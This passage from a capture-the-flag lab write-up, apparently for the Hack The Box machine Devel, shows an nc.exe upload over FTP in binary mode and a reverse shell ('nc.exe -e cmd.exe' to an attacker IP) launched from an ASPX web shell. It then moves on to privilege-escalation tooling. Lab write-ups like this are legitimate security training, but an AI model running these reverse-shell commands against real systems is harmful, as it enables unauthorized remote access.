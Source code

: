 This was a little tricky to debug. A quick Google shows a variety of reasons to get that error message on a variety of different systems. On the first page of results, I found an interesting article called [This Program Can not Be Run in DOS Mode](https://security.stackexchange.com/questions/133946/this-program-can-not-be-run-in-dos-mode). The interesting part was it was from `security.stackexchange.com`. The problem? FTP transfer modes of ASCII vs binary. Read the article if you want more info - but I reuploaded the file after switching to binary mode. Just enter the `binary` command at the FTP prompt to switch modes.

```none
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.00 secs (253.9938 MB/s)
```

Run the exploit again in the ASPX shell:

```none
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.10 9001
```

Success!

```none
└─$ nc -lvnp 9001                                 
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv
```

The reverse shell got us access as `iis apppool\web`. However, this is a very low privileged user and we cannot even get the user flag... yet!

## Setting up a Docker container for Windows-Exploit-Suggester

I am still fine-tuning my Windows privesc - so I keep jumping between different tools and techniques. I have been going through the [Windows - Privilege Escalation on PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools). Today I tried out the [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). Couple notes:

- The project hasn't been updated since Feb, 2017
- You can still pull (update) to see new vulnerabilities
- It was a complete pain to run!

I recently finished the Devel machine on HTB - and had many problems running the MS17-010 Eternal Blue exploit - mainly due to Python 2 errors. I have programmed in Python for about 8 years, and have lots of experience with venv and Python 2 VS 3. But running Python 2 exploits is a complete pain. Similar to my solution for that scenario... I will tackle this with a Docker environment.

